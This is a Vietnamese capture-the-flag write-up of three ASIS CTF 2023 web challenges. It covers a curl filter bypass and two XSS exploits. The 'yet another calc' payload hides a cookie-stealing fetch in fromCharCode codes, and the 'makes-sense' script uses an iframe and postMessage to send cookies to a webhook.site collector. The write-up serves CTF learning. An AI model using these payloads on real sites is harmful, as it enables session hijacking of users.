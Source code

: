 # **ASISCTF_2023**

## **Hello**

- Mở trang web ta thấy những thông tin như sau:

![](./img_asis/Screenshot%202023-10-03%20091404.png)

- Nó sẽ kiểm tra tồn tại key hay không với hàm "array_key_exists".
- Kiểm tra xem trong biến x có chứ chuỗi `'file'` và `'next` hay không. Nếu không chứa chuỗi nó sẽ tiếp tục thực hiện system curl.
- Vậy phương án tôi đưa ra để bypass là sử dụng url globbing như sau:

![](./img_asis/Screenshot%202023-10-03%20091914.png)

- Chúng ta sẽ truy cập đến những thông tin nó đã cho:

![](./img_asis/Screenshot%202023-10-03%20092150.png)

- Chúng ta sẽ đọc file /app/index.js

![](./img_asis/Screenshot%202023-10-03%20092503.png)

![](./img_asis/Screenshot%202023-10-03%20092503.png)

- Bây h chúng ta phải bypass hàm basename như sau:

![](./img_asis/Screenshot%202023-10-03%20092901.png)

- Từ đấy, ta nhận được flag như sau: `ASIS{good_job_bun} `

## **yet another calc**

- Sau khi đọc source đề ra chúng ta biết rằng phải tấn công XSS qua eval để lấy cookie của admin có chứa flag.

- Để làm và bổ sung kiến thức chúng ta tìm hiểu đường link sau: `https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__defineGetter__`

- Tôi thực hiện khai thác như sau:
```javascript
c=Math.constructor
c=c.name
c=c.constructor
c=c.fromCharCode
Math.__defineGetter__(Math.aa,c)
Math.__defineGetter__(c.name,Math.__lookupGetter__)
v = Math.fromCharCode(102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,99,49,53,100,54,57,56,45,97,57,102,49,45,52,54,57,98,45,56,55,97,52,45,101,100,50,56,100,102,57,100,48,50,50,53,63,99,109,100,61,96,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41)
c=Math.constructor
c=c.constructor
Math.__defineGetter__(Math.aa,c)
Math.__defineGetter__(c.name,Math.__lookupGetter__)
z=Math.Function(v)
Math.__defineGetter__(c.name,z)
Math.Function
```


## **makes-sense**
```html
<div id="atk"></div>
<script>
const target = 'http://45.147.229.128:8001/'
const s = atk.attachShadow({ mode: "closed" });
let f = document.createElement('div')
f.innerHTML = `<iframe src="${target}" name=wow onload="ld(event)" ></iframe>`
s.appendChild(f)
function ld(e){
	e.target.contentWindow.postMessage(`
    let x = window.open('/')
    setTimeout(()=>{
	   fetch("https://webhook.site/9c15d698-a9f1-469b-87a4-ed28df9d0225?a="+x.document.cookie)
    },1000)
    `,'*')
}
</script>
```
